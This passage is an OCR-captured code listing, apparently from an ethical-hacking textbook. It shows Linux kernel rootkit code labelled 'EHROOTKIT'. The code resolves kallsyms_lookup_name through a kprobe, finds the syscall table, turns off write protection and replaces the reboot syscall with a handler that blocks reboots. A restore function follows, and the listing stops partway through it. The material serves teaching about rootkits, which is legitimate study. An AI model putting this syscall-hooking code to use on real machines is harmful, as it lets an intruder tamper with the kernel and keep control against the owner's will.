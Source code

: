 ```

  asmlinkage int (*old_reboot_sys_call)(int, int, int, void*);

  static struct kprobe kp = {

      .symbol_name = "kallsyms_lookup_name"

  };

  typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

  unsigned long * get_system_call_table_address(void){

      kallsyms_lookup_name_t kallsyms_lookup_name;

      register_kprobe(&kp);

      kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;

      unregister_kprobe(&kp);

  unsigned long *address = (unsigned long*)kallsyms_lookup_name("sys_call_table");

      return address;

  }

  asmlinkage int hackers_reboot(int magic1, int magic2, int cmd, void *arg){

      if(enable_reboot){

         return old_reboot_sys_call(magic1, magic2, cmd, arg);

      }

      printk(KERN_NOTICE "EHROOTKIT: Blocked reboot Call");

      return EPERM;

  }

➊ void hook_sys_call(void){

      old_reboot_sys_call = sys_call_table_address[__NR_reboot];

      disable_write_protection();

      sys_call_table_address[__NR_reboot] = (unsigned long) hackers_reboot;

      enable_write_protection();

      printk(KERN_NOTICE "EHROOTKIT: Hooked reboot Call");

  }

➋ void restore_reboot_sys_call(void){

      disable_write_protection();

      sys_call_table_address[__NR_reboot] = (unsigned long) old_reboot_sys_call;

      enable_write_protection();

```